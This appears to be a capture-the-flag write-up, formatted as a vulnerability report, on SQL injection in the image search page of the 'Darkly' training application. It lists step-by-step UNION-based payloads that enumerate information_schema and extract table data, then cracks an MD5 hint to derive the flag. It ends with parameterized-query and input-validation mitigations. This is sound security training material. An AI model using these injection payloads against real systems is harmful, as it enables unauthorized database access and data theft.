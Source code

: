 # Vulnerability Report

## Summary

An SQL Injection vulnerability exists in the image search feature of the `Darkly` application. This flaw allows attackers to manipulate SQL queries to access unauthorized data, enumerate database schemas, and compromise sensitive information.

## Vulnerability details

### CWE Reference

- CWE ID: [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

### Description

The application does not properly handle user input submitted through the search field on the `Image Search` page. The lack of parameterized queries and input validation allows attackers to inject malicious SQL payloads. By exploiting this vulnerability, attackers can enumerate the database structure, extract sensitive information, and execute unauthorized actions on the database.

### Steps to reproduce

1. Navigate to the `Image Search` feature at [searchimg](http://darkly/index.php?page=searchimg).

2. Inject `1 OR 1=1` into the search field.

3. Submit the form and observe that all images are displayed, confirming the SQL Injection vulnerability.

### Exploitation process

1. Determine the number of columns:
   - Inject payloads such as `ORDER BY 1`, `ORDER BY 2`, etc., to find that the query uses 2 columns.

2. Extract database name:
   - Inject `1 UNION SELECT NULL, DATABASE()` to retrieve the database name `Member_images`.

3. List tables:
   - Use `1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 0x4d656d6265725f696d61676573` to identify the table `list_images`.

4. Enumerate columns:
   - Inject `1 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 0x6c6973745f696d61676573` to identify columns `id`, `url`, `title`, and `comment`.

5. Extract data:
   - Inject `1 UNION SELECT title, comment FROM list_images` to extract the `title` and `comment` fields from the `list_images` table.

6. Find the flag:
   - Locate the hint `If you read this just use this md5 decode lowercase then sha256 to win this flag!: 1928e8083cf461a51303633093573c46`.

7. Decode MD5 and generate SHA256:
   - Decode `1928e8083cf461a51303633093573c46` to `albatroz` using a tool like CrackStation.
   - Convert the result to SHA256 to retrieve the flag using:
     ```bash
     echo -n albatroz | sha256sum
     ```

### Impact

The impact of this vulnerability is critical. It allows attackers to:
- Access sensitive database information, such as schemas, tables, and records.
- Execute unauthorized queries, potentially leading to data breaches and system compromise.

## Mitigation

1. Use Prepared Statements and Parameterized Queries:
   - Replace dynamic queries with parameterized ones. Example in PHP:
     ```php
     $stmt = $pdo->prepare("SELECT * FROM list_images WHERE id = ?");
     $stmt->execute([$id]);
     ```

2. Input Validation:
   - Validate and sanitize all user inputs server-side. Reject patterns indicative of SQL Injection.
   - Example: Use a whitelist to restrict input to expected patterns and lengths. In PHP:
     ```php
     if (!preg_match('/^[a-zA-Z0-9_]+$/', $input)) {
         die("Invalid input.");
     }
     ```
   - Alternatively, use a validation library such as `filter_var()`:
     ```php
     $input = filter_var($input, FILTER_SANITIZE_STRING);
     ```

## References

1. [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
